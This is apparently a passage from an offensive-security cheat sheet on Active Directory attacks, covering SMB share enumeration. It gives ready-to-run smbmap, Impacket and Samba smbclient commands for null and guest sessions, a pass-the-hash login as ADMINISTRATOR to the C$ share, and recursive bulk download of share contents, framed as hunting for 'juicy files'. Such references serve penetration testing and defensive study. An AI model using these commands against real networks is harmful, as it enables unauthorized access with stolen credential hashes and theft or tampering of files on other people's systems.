 # Domain Shares

Some shares can be accessible without authentication, explore them to find some juicy files

[smbmap](https://github.com/ShawnDEvans/smbmap)

```
smbmap -H 10.10.10.10                # null session
smbmap -H 10.10.10.10 -R             # recursive listing
smbmap -H 10.10.10.10 -u invaliduser # guest smb session
smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
```

[pth-smbclient from path-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

```
pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
ls  # list files
cd  # move inside a folder
get # download files
put # replace a file
```

[smbclient from Impacket](https://github.com/SecureAuthCorp/impacket)

```
smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Replication     Disk      
        SYSVOL          Disk      Logon server share
        Users           Disk
use Sharename # select a Sharename
cd Folder     # move inside a folder
ls            # list files
```

[smbclient - from Samba, ftp-like client to access SMB/CIFS resources on servers](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#)

```
smbclient -U username //10.0.0.1/SYSVOL
smbclient //10.0.0.1/Share

# Download a folder recursively
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> lcd '/path/to/go/'
smb: \> mget *
```

